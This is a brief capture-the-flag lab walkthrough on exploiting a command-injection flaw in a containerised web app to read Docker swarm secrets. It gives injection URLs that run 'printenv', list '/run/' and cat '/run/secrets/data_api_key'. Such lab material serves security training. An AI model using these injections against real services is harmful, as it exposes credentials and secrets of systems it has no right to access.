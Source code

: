 # Exploiting Cluster Secrets

* The application running in the CTF VM has code execution vulnerability `http://CTFVMIP:8080/?domain=;id` and is running in docker swarm as service with attached secrets

![accessing the docker swarm app](images/access-docker-swarm-app.png)

* We can access the application container's environment variables using the `printenv` command by visiting `http://CTFVMIP:8080/?domain=;printenv`

![access docker swarm environment variables](images/access-docker-swarm-env.png)

* We can explore the directories further `http://CTFVMIP:8080/?domain=;ls -l /run/`

![docker swarm app search locations](images/docker-swarm-search-locations.png)

* The secrets are mounted via `docker secrets` at `/var/run/` or `/run/`. We can access them by visiting `http://CTFVMIP:8080/?domain=;cat /run/secrets/data_api_key`

![docker secret access data](images/docker-secrets-default-location.png)

* A similar approach can be user for `docker swarm` and `kubernetes` cluster environments
